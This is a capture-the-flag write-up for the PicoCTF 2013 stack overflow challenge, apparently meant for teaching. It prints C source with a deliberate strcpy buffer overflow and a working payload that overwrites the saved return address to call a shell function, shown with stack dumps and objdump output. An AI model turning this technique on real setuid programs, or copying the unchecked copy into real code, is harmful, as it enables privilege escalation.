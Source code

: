 ## PicoCTF 2013: Overflow #

**Category:** Binary Exploitation
**Points:** 120
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_3_28d8a442fb232c0c , downloadable here with source
>here.

>If you solve the problem you will be able to read the key file by running

>cat /problems/stack_overflow_3_28d8a442fb232c0c/key
>on the PicoCTF shell machine.

>**Hint:** objdump -d is a handy tool for this sort of thing.

## Write-up
Let's look at the source code:

```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "dump_stack.h"

/*
 * Goal: Get the program to run this function.
 */
void shell(void) {
    execl("/bin/sh", "sh", NULL);
}

void vuln(char *str) {
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 21, (void **) &str);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: buffer_overflow [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    printf("shell function = %p\n", shell);
    vuln(argv[1]);
    return 0;
}
```
Well the code comment makes it fairly plain that we need to call `shell()`

But how? Well let's just put in a bunch of garbage and see what happens:
```
$ ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*64')
shell function = 0x80485f8
Stack dump:
0xffe9fd00: 0xffea0849 (first argument)
0xffe9fcfc: 0x080486bc (saved eip)
0xffe9fcf8: 0xffe9fd28 (saved ebp)
0xffe9fcf4: 0xf7722938
0xffe9fcf0: 0x08048800
0xffe9fcec: 0x41414141
0xffe9fce8: 0x41414141
0xffe9fce4: 0x41414141
0xffe9fce0: 0x41414141
0xffe9fcdc: 0x41414141
0xffe9fcd8: 0x41414141
0xffe9fcd4: 0x41414141
0xffe9fcd0: 0x41414141
0xffe9fccc: 0x41414141
0xffe9fcc8: 0x41414141
0xffe9fcc4: 0x41414141
0xffe9fcc0: 0x41414141
0xffe9fcbc: 0x41414141
0xffe9fcb8: 0x41414141
0xffe9fcb4: 0x41414141
0xffe9fcb0: 0x41414141 (beginning of buffer)
$ strace ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*76 +"BBBB"')
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```
Now you'll notice that the program segfaults at 0x42424242, meaning we have
control over some part of the program. If you look at the prior stackdump,
you'll see a "saved eip." This is called a return address, and it tells the
code where to jump back to after the current function returns. In this case, it
goes back to 0x080486bc in `main()`. However, in the second run, using strace
reveals that we can overwrite that address. Maybe we can supply our own?

Let's use objdump like the hint says:
```
$ objdump -d overflow3-28d8a442fb232c0c | grep ">:"
0804837c <_init>:
080483b0 <setresuid@plt-0x10>:
080483c0 <setresuid@plt>:
080483d0 <printf@plt>:
080483e0 <geteuid@plt>:
080483f0 <strcpy@plt>:
08048400 <puts@plt>:
08048410 <__gmon_start__@plt>:
08048420 <__libc_start_main@plt>:
08048430 <putchar@plt>:
08048440 <execl@plt>:
08048450 <_start>:
08048480 <__do_global_dtors_aux>:
080484e0 <frame_dummy>:
08048504 <dump_stack>:
080485f8 <shell>:
0804861c <vuln>:
08048650 <main>:
080486d0 <__libc_csu_init>:
08048740 <__libc_csu_fini>:
08048742 <__i686.get_pc_thunk.bx>:
08048750 <__do_global_ctors_aux>:
0804877c <_fini>:
```

These are all functions in the binary, and their addresses are on the left. If
you look through them, you'll see that the `shell()` function is in there. Now
if you don't know what endianness is, I suggest you look it up. However for our
purposes, it means that the address's bytes are reversed (two hex digits). x86
is little endian, meaning all addresses in future exploits will need this.

Ex: 08 04 85 f8 becomes f8 85 04 08.

Now since we can't print all these characters, we can use a python escape
sequence to supply them. Remember the "B"s from before overwrote eip, so we
will replace those with our address!

```
$ ./overflow3-28d8a442fb232c0c $(python -c 'print "A"*76 +"\xf8\x85\x04\x08"')
shell function = 0x80485f8
Stack dump:
0xfffd4510: 0xfffd5800 (first argument)
0xfffd450c: 0x080485f8 (saved eip)
0xfffd4508: 0x41414141 (saved ebp)
0xfffd4504: 0x41414141
0xfffd4500: 0x41414141
0xfffd44fc: 0x41414141
0xfffd44f8: 0x41414141
0xfffd44f4: 0x41414141
0xfffd44f0: 0x41414141
0xfffd44ec: 0x41414141
0xfffd44e8: 0x41414141
0xfffd44e4: 0x41414141
0xfffd44e0: 0x41414141
0xfffd44dc: 0x41414141
0xfffd44d8: 0x41414141
0xfffd44d4: 0x41414141
0xfffd44d0: 0x41414141
0xfffd44cc: 0x41414141
0xfffd44c8: 0x41414141
0xfffd44c4: 0x41414141
0xfffd44c0: 0x41414141 (beginning of buffer)
$
```
pwn.

## Other write-ups and resources

* none yet
